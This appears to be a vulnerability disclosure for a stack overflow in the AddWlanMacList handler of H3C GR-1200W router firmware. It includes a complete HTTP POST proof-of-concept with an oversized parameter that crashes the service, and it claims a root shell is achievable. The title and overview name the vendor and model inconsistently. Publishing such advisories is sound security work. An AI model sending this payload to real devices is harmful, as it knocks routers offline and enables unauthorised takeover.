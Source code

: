 # TOTOLink H3C GR-1200W (<=MiniGRW1A0V100R006) has a stack overflow vulnerability

## Overview

- Manufacturer's website information：https://www.h3c.com/
- Firmware download address ： https://www.h3c.com/cn/d_202102/1383837_30005_0.htm

### Product Information

H3C B5 Mini B5MiniV100R005 router, the latest version of simulation overview：

![image-20220724213031606](img/image-20220724213031606.png)

## Vulnerability details

The H3C GR-1200W (<=MiniGRW1A0V100R006)  router was found to have a stack overflow vulnerability in the AddWlanMacList function. An attacker can obtain a stable root shell through a carefully constructed payload.

![image-20220724213415656](img/image-20220724213415656.png)

In the `AddWlanMacList` function, the `param` we entered is formatted using the `sscanf` function and in the form of `%u;%u;%[^;];%[^;];`. This greedy matching mechanism is not secure, as long as the size of the data we enter is larger than the size of `V7` or `V8`, it will cause a stack overflow.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /goform/aspForm HTTP/1.1
Host: 192.168.0.124:80
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://121.226.152.63:8443/router_password_mobile.asp
Content-Type: application/x-www-form-urlencoded
Content-Length: 553
Origin: https://192.168.0.124:80
DNT: 1
Connection: close
Cookie: JSESSIONID=5c31d502
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

CMD=AddWlanMacList&param=1;2;AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA;
```

![image-20220724220946426](img/image-20220724215411671.png)

The picture above shows the process information before we send poc.

![image-20220724221039594](img/image-20220724215659752.png)

In the picture above, we can see that the PID has changed since we sent the POC.

![image-20220724220011366](img/image-20220724220011366.png)

The picture above is the log information.

![image-20220624230619282](img/image-20220624230619282.png)

By calculating offsets, we can compile special data to refer to denial-of-service attacks(DOS).

![image-20220724220055672](img/image-20220724220055672.png)

Finally, you also can write exp to get a stable root shell without authorization.